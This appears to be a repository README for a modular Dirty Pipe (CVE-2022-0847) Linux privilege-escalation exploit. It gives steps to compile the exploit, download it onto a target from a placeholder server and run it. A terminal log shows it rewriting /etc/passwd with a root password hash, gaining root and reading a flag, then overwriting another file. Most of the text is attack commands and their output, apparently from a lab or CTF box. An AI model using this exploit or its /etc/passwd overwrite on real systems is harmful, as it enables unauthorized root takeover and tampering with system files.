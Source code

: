 # Dirty Pipe Exploit: CVE-2022-0847
The Dirty Pipe vulnerability, also known as CVE-2022-0847, is a significant flaw within the Linux kernel. This repository provides an adapted version of the widely used exploit code to make it more user-friendly and modular.

You'll find a very good explanation of this vulnerability on [this HackTheBox blog](https://www.hackthebox.com/blog/Dirty-Pipe-Explained-CVE-2022-0847). The more detailed an orignal one's from Max Kellermann is [on his blog](https://dirtypipe.cm4all.com/).

This adapted version is segmented into different methods to increase modularity and ease of modification. Notably, there's an added --root option that modifies the /etc/passwd file, to leverage root access with password `el3ph@nt!`.

Compile the exploit statically:
```shell
gcc -o dpipe dpipe.c -static
```

And retrieve-it from your target before launching-it:
```shell
yoan@teecup:~$ wget http://YOUR_SERVER_ADDRESS/unix/cve/dpipe
--2023-10-15 20:07:44--  http://YOUR_SERVER_ADDRESS/unix/cve/dpipe
Connecting to YOUR_SERVER_ADDRESS:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 769792 (752K) [text/plain]
Saving to: ‘dpipe’

dpipe                                   100%[=============================================================================>] 751.75K  --.-KB/s    in 0.09s

2023-10-15 20:07:44 (8.09 MB/s) - ‘dpipe’ saved [769792/769792]

yoan@teecup:~$ chmod +x dpipe
yoan@teecup:~$ ./dpipe --root
[Dirty Pipe] Attempting to backup '/etc/passwd' to '/tmp/passwd.bak'
[Dirty Pipe] Successfully backed up '/etc/passwd' to '/tmp/passwd.bak'
[Dirty Pipe] Initiating write to '/etc/passwd'...
[Dirty Pipe] Data size to write: 131 bytes
[Dirty Pipe] File '/etc/passwd' opened successfully for reading.
[Dirty Pipe] Pipe size determined: 65536 bytes
[Dirty Pipe] Filling the pipe...
[Dirty Pipe] Pipe filled successfully.
[Dirty Pipe] Draining the pipe...
[Dirty Pipe] Pipe drained successfully.
[Dirty Pipe] Data successfully written to '/etc/passwd'.
[Dirty Pipe] You can connect as root with password 'el3ph@nt!'
[Dirty Pipe] Program execution completed successfully.
yoan@teecup:~$
yoan@teecup:~$ cat /etc/passwd
root:$6$9WETWbCBTQ8pxg4I$odZAx8iIlayCnFdUwDM5dHVfsXXZo1RHRp2a4uQzcPDkRiTJYLA4loZESihn4ASGhWKN9.RWPT.CZJdyfTej4/:0:0:root:/root:/bin/sh
:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
yoan:x:1000:1000::/home/yoan:/bin/bash
yoan@teecup:~$ su root
Password:
# cd /root
# cat flag.txt
Great job! You found me.
```

You can also use the exploit to overwrite content in other files:
```shell
yoan@teecup:~$ echo "Vxxx" > dirty
yoan@teecup:~$ cat dirty
Vxxx
yoan@teecup:~$ ./dpipe dirty 1 uln
[Dirty Pipe] Standard file overwrite mode detected...
[Dirty Pipe] Attempting to backup 'dirty' to '/tmp/dirty.bak'
[Dirty Pipe] Successfully backed up 'dirty' to '/tmp/dirty.bak'
[Dirty Pipe] Initiating write to 'dirty'...
[Dirty Pipe] Data size to write: 3 bytes
[Dirty Pipe] File 'dirty' opened successfully for reading.
[Dirty Pipe] Pipe size determined: 65536 bytes
[Dirty Pipe] Filling the pipe...
[Dirty Pipe] Pipe filled successfully.
[Dirty Pipe] Draining the pipe...
[Dirty Pipe] Pipe drained successfully.
[Dirty Pipe] Data successfully written to 'dirty'.
[Dirty Pipe] Program execution completed successfully.
yoan@teecup:~$ cat dirty
Vuln
```